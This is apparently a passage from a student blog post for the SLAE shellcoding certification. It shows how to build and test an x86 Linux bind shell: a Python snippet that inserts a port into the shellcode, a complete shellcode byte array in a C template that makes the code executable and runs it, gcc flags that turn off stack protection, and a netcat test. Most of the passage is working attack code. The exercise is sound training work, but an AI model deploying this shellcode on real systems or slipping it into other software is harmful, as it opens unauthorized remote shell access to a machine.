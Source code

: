 ```python

# convert to network byte order and hex
# port = hex(socket.htons(int(port)))[2:].zfill(4)
port = struct.pack("!i", int(port)).hex()
port_byte1 = port[len(port)-4:len(port)-2]
port_byte2 = port[len(port)-2:]
print(f"port: \\x{port_byte1}\\x{port_byte2}")
shellcode = shellcode1 + f"\\x{port_byte1}\\x{port_byte2}" + shellcode2
print(shellcode)
```

And execute it with:
```bash
python3 create_x86_bind_shell.py 1234
```

The output of the script is shellcode that can be entered into this template.c program:

```c
#include <sys/mman.h>
#include <stdio.h>

unsigned char code[] = "\x31\xdb\xf7\xe3\x31\xc9\xb0\x66\xb3\x01\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x31\xc0\x31\xdb\x31\xc9\xb0\x66\xb3\x02\x51\x66\x68\x00\x38\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\x31\xdb\x31\xc9\xb0\x66\xb3\x04\x51\x57\x89\xe1\xcd\x80\x31\xc0\x31\xdb\x31\xc9\xb0\x66\xb3\x05\x51\x51\x57\x89\xe1\xcd\x80\x93\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xcd\x80";

int main(){
  printf("Shellcode length: %d\n", strlen(code));
  int r =  mprotect((void *)((int)code & ~4095),  4096, PROT_READ | PROT_WRITE|PROT_EXEC);
  printf("mprotect: %d\n",r);
  int (*ret)() = (int(*)())code;
  return ret();
}
```

Once the shellcode is entered, just compile it for x86 using this command:

```bash
gcc -fno-stack-protector -z execstack template.c -m32 -o bind_shell
```

And execute the resulting binary:
```bash
./bind_shell
```

Then, from another terminal, validate the connection by connecting with netcat and running some commands like `ls` `whoami` `id`, etc.:
```
nc localhost 1234
```


# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: SLAE-alecjmaly
